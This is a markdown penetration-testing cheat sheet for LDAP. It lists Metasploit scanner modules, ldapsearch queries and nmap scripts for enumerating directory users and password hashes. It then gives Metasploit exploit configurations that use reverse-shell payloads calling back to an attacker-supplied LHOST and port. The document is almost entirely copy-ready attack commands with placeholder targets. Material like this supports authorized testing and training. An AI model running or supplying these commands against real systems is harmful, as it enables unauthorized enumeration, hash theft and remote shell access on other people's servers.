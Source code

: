 # LDAP

## Enumeration

### Metasploit

##### ldap_enum
```bash
use auxiliary/scanner/ldap/ldap_enum
set RHOSTS [IP]
set RPORT 389
run
```

##### ldap_users
```bash
use auxiliary/scanner/ldap/ldap_users
set RHOSTS [IP]
set RPORT 389
run
```

##### ldap_enum_hashes
```bash
use auxiliary/scanner/ldap/ldap_enum_hashes
set RHOSTS [IP]
set RPORT 389
run
```

##### ldap_search
```bash
use auxiliary/scanner/ldap/ldap_search
set RHOSTS [IP]
set RPORT 389
set SEARCH_BASE "dc=example,dc=com"
run
```

##### ldap_version
```bash
use auxiliary/scanner/ldap/ldap_version
set RHOSTS [IP]
set RPORT 389
run
```

### ldapsearch

##### ldapsearch (basic enumeration)
```bash
ldapsearch -x -H ldap://[IP] -b "dc=example,dc=com"
```

##### ldapsearch (with specific filter)
```bash
ldapsearch -x -H ldap://[IP] -b "dc=example,dc=com" "(objectClass=person)"
```

### nmap
##### nmap (LDAP version and info)
```bash
nmap -p 389 --script=ldap-rootdse [IP]
```

##### nmap (LDAP user enumeration)
```bash
nmap -p 389 --script=ldap-enum-users [IP]
```

##### nmap (LDAPS enumeration)
```bash
nmap -p 636 --script=ssl-enum-ciphers [IP]
```


---
---


## Exploitation

### Metasploit

##### ldap_sudo_exec
```bash
use exploit/unix/ldap/ldap_sudo_exec
set RHOSTS [IP]
set RPORT 389
set PAYLOAD cmd/unix/reverse
set LHOST [IP]
set LPORT [port]
run
```

##### ldap_rce
```bash
use exploit/linux/ldap/ldap_rce
set RHOSTS [IP]
set RPORT 389
set PAYLOAD linux/x86/shell_reverse_tcp
set LHOST [IP]
set LPORT [port]
run
```